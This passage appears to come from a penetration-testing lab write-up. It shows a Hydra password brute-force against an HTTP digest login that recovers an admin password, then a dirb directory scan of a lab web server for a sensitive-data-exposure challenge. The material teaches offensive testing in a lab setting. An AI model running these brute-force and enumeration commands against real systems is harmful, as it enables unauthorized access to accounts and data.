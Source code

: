 `hydra -l 'admin' -P /root/Desktop/wordlists/100-common-passwords.txt 192.208.248.3 http-get /digest/`:
```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-27 19:09:41
[DATA] max 16 tasks per 1 server, overall 16 tasks, 100 login tries (l:1/p:100), ~7 tries per task
[DATA] attacking http-get://192.208.248.3:80/digest/
[80][http-get] host: 192.208.248.3   login: admin   password: adminpasswd🔑
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-27 19:09:43
```

---

## Testing for Sensitive Data Exposure

### Sensitive Data Exposure Vulnerabilities

#### Lab Environment

**Vulnerable Apache III**

Apache is probably the most popular web server on the World Wide Web with millions of deployments! In this series of challenges, we hope to explore how attackers can exploit webapps running on Apache  arising due to server misconfigurations and/or application vulnerabilities. Take a look at the scenario below.

The target server is hosting a web app. <u>The web app is not vulnerable but the directory listing enabled on the server. And, that can lead to sensitive information leakage</u>.

**Objective**: <u>Your objective is to login into the webapp as `admin` user and retrieve the flag</u>.

#### Lab Solution

`dirb https://x98om58h6103o8tnmyurp1okd.eu-central-5.attackdefensecloudlabs.com/ /usr/share/wordlists/dirb/small.txt`:
```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Nov 27 14:44:58 2024
URL_BASE: https://x98om58h6103o8tnmyurp1okd.eu-central-5.attackdefensecloudlabs.com/
WORDLIST_FILES: /usr/share/wordlists/dirb/small.txt

-----------------

GENERATED WORDS: 959                                                           

---- Scanning URL: https://x98om58h6103o8tnmyurp1okd.eu-central-5.attackdefensecloudlabs.com/ ----
+ https://x98om58h6103o8tnmyurp1okd.eu-central-5.attackdefensecloudlabs.com/cgi-bin/ (CODE:403|SIZE:340)                                                                                   
+ https://x98om58h6103o8tnmyurp1okd.eu-central-5.attackdefensecloudlabs.com/composer (CODE:200|SIZE:403)                                                                                   
==> DIRECTORY: https://x98om58h6103o8tnmyurp1okd.eu-central-5.attackdefensecloudlabs.com/docs/                                                                                             
+ https://x98om58h6103o8tnmyurp1okd.eu-central-5.attackdefensecloudlabs.com/logo (CODE:200|SIZE:14598)                                                                                     
==> DIRECTORY: https://x98om58h6103o8tnmyurp1okd.eu-central-5.attackdefensecloudlabs.com/public/📌                                                                                        
---- Entering directory: https://x98om58h6103o8tnmyurp1okd.eu-central-5.attackdefensecloudlabs.com/docs/ ----
```